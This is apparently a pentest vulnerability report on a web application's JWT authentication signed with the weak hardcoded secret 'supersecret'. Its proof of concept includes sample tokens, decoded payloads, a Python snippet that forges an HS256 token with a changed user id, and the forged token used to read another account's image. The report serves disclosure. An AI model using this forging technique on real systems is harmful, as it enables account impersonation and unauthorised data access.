 # Description


- **Type:** Broken Authentication / JWT Secret Disclosure  
- **Location:** All JWT-protected endpoints  
- **Severity:**  High  
- **Impact:** Token forgery, role escalation, account impersonation  

The application uses **JSON Web Tokens (JWT)** for authentication and authorization, signed with the `HS256` algorithm.  
During testing, it was discovered that the JWT secret is set to a **weak hardcoded value**: supersecret  

![jwt](../images/jwt.jpg)  

This secret is trivially guessable via brute-force or dictionary attacks using tools like `jwt-cracker`, `jwt_tool`, or `hashcat`.  

By signing arbitrary tokens with the known secret, it is possible to forge valid JWTs and escalate privileges  


## PoC 

For that PoC I created 2 different account with given JWTs:

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzQyLCJsb2dpbiI6Inlob3JtIiwibWFpbCI6IjEyM0AxMjMuY29tIiwicm9sZSI6InVzZXIiLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.  2W9Jjpmbh8XS8QmfJRJX5tAb_LoIiiWFRfkprJXj6W4

When decoded:

```json
{
  "id": 342,
  "login": "yhorm",
  "mail": "123@123.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

And second 

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzYwLCJsb2dpbiI6IlBPT0MiLCJtYWlsIjoiMzFAMzIyLmNvbSIsInJvbGUiOiJ1c2VyIiwiaXAiOiIxNDYuMTU4LjY2LjIwOSJ9.v0FPpLfWFAqPO7iskaHPckFLmqubk3Gep00xx_C1L-0  

```json
{
  "id": 360,
  "login": "POOC",
  "mail": "31@322.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

With that tokens we will try to access /images.php?id=13921 (POOC user image) which is not accesible to 'yhorm' user.  
![jwt_poc](../images/jwt_poc.jpg)  

After testing it was clear that we can access others image only by changing **id** value.  
```python
import jwt

secret = "supersecret"

payload = {
    "id": 360, #id for POOC user
    "login": "yhorm",
    "role": "user",
    "mail": "123@123.com",
    "ip": "146.158.66.209"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
New jwt token:  
> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MzYwLCJsb2dpbiI6Inlob3JtIiwicm9sZSI6InVzZXIiLCJtYWlsIjoiMTIzQDEyMy5jb20iLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.0ej8hhRWs6vqNhRNQ4w-7G2xTSEqixOzFPauTyIxY6c

![jwttt](../images/jwt_final.jpg)

Successfully got access to other account image only by changing id value. 

